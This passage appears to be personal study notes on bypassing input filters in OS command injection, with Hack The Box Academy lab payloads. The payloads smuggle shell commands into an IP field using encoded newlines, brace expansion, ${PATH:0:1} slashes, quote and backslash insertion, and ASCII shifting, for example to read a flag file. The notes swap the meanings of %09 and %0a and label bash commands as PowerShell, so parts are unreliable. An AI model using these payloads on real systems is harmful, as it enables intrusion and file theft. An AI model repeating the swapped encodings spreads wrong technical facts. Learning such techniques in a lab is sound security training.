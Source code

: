 >>```powershell
>>127.0.0.1%09%0a{ls,-la,${PATH:0:1}home}
>>```
>>
>>Which is interpreted as:
>>```powershell
>>127.0.0.1
>>	ls -la /home
>>```
>>Because `%09` is interpreted as a new-line character, which allows us to inject a new OS command, `%0a` is a space, which is necessary for the second command to be recognised, `{ls,-la}` is interpreted as `ls -la` which allows us to bypass the block on the space character, and `${PATH:0:1}` is interpreted as `/` because `/` is the first character of the victim's PATH variable.
>>
>>![[Images/Pasted image 20250506062129.png]]

>[!code]- ASCII shifting
>First, find the character in the ASCII table that is just before our desired character, then add it instead of `[` in the below example.
>
>![[Images/Pasted image 20250506054537.png]]
>###### Linux
>```powershell
>man ascii     # \ is on 92, before it is [ on 91
>$(tr '!-}' '"-~'<<<[) # this will give us \
>```
###### Bypassing blacklisted commands

>[!code]- Character insertions
>###### Quotes
>```powershell
># Cannot mix types of quotes and we must have an even number of them
>
>w'h'o'am'i -> whoami
>w"h"o"am"i -> whoami
>```
>
>>[!exploit]- Example (Hack The Box Academy)
>>```powershell
>>127.0.0.1%0aw'h'o'am'i
>>```
>>![[Images/Pasted image 20250506064521.png]]
>
>###### Linux only
>```powershell
># Bash will ignore certain characters, including `\` and `$@`
>
>who$@ami -> whoami
>w\ho\am\i -> whoami
>```
>>[!exploit]- Example (Hack The Box Academy)
>>The input field:
>>
>>![[Images/Pasted image 20250506182846.png]]
>>
>>Payload:
>>```powershell
>>127.0.0.1%0a%09{c$@at,${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt}
>>```
>>Which gets interpreted as:
>>```
>>127.0.0.1
>>	cat /home/1nj3c70r/flag.txt
>>```